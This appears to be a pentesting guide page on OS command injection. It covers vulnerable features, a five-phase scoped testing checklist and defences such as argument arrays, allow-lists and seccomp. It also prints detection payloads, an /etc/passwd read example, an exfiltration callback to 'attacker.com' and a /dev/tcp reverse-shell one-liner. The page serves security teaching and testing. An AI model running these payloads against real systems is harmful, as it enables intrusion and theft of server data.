

# Command Injection

Execute OS commands through vulnerable input handlers.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">

```mermaid
flowchart LR
    IN[; | && payload] --> SHELL[OS shell invoked]
    SHELL --> EXEC[id, cat /etc/passwd]
classDef attacker fill:#ef4444,stroke:#b91c1c,color:#fff
classDef target fill:#6c3ce0,stroke:#5429c4,color:#fff
classDef tool fill:#f59e0b,stroke:#d97706,color:#1a1a1a
classDef success fill:#10b981,stroke:#059669,color:#fff
classDef warn fill:#f97316,stroke:#ea580c,color:#fff

```

</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

Command injection executes operating system shell commands when applications invoke system utilities with unsanitized user input—`os.system()`, `exec()`, `subprocess` with `shell=True`, PHP `system()`, Java `Runtime.exec()` with string concatenation.

Vulnerable features:

- Network diagnostics (ping, traceroute, nslookup)
- Image/media conversion (ImageMagick wrappers calling `convert`)
- PDF generators invoking `wkhtmltopdf`
- Git operations, backup scripts, admin "run task" panels

Shell metacharacters break out of intended argument context:

- Unix: `;`, `|`, `&&`, `` ` ``, `$()`, newline
- Windows: `&`, `|`, `^`, `%`

Blind injection uses time delays (`sleep 5`) or out-of-band callbacks (`curl attacker.com`).

## Exploitation

**Detection**

```
; id
| whoami
`id`
$(curl attacker.com/$(whoami))
& ping -c 5 127.0.0.1
```

Observe response output, timing, or DNS/HTTP callbacks.

**Example vulnerable ping**

Input: `8.8.8.8; cat /etc/passwd`

Executed: `ping -c 1 8.8.8.8; cat /etc/passwd`

**Attack flow**

```
User input in shell command string → shell interprets metacharacters → arbitrary OS command → RCE on app server
```

**Tools**

```bash
commix -u "https://target.com/ping?ip=127.0.0.1" --batch
```

**Escalation**

- Reverse shell: `; bash -i >& /dev/tcp/attacker/4444 0>&1`
- Read env/secrets, cloud metadata, pivot internally
- Container breakout if excessive privileges

**Filter bypass**

- Encoding, variable expansion `$({,,)`, alternate commands `[` `]`

## Defense & Mitigation

**Never shell out with user input**

- Use library APIs: DNS resolver libraries instead of `nslookup`, image libs instead of CLI wrappers.

**Argument arrays**

- Python: `subprocess.run(['ping', '-c', '1', ip], shell=False)` with strict IP validation.
- Java: `ProcessBuilder` with separate args, no string shell.

**Validation**

- Allow-list IPs/hostnames matching regex for intended type only.
- Reject shell metacharacters entirely.

**Privilege**

- Run app processes as non-root; containers without CAP_SYS_ADMIN.
- Seccomp/AppArmor profiles blocking `execve` of shells.

**Detection**

- Monitor child process creation from web workers (`/bin/sh`, `cmd.exe`).
- WAF signatures as secondary layer only.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Locate OS command invocation: ping, nslookup, image tools, backups

### Phase 2 — Discovery & Mapping

- [ ] Identify parameters passed to shell: IP, hostname, filename
- [ ] Test separators: `;`, `|`, `&&`, `||`, `` ` ``, `$()`
- [ ] Review blind command injection via time delays
- [ ] Map outbound network for OOB exfiltration

### Phase 3 — Validation & Testing

- [ ] Confirm with `; sleep 5` or `| whoami` output in response
- [ ] Use commix for automated detection
- [ ] Test argument injection vs full command injection
- [ ] Validate Windows vs Linux payload sets

### Phase 4 — Exploitation & Impact Proof

- [ ] Demonstrate file read or reverse shell in lab only
- [ ] Capture command output in HTTP response as proof
- [ ] Avoid destructive commands on production
- [ ] Document sanitization bypass used

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Recommend exec APIs without shell and strict input allow-lists

## Tools

| Tool | Usage |
|------|-------|
| `commix` | [Command injection](../../TOOLS_GUIDE.md#commix) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `ffuf` | [Web fuzzer](../../TOOLS_GUIDE.md#ffuf) |

## Resources

- [PayloadsAllTheThings Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
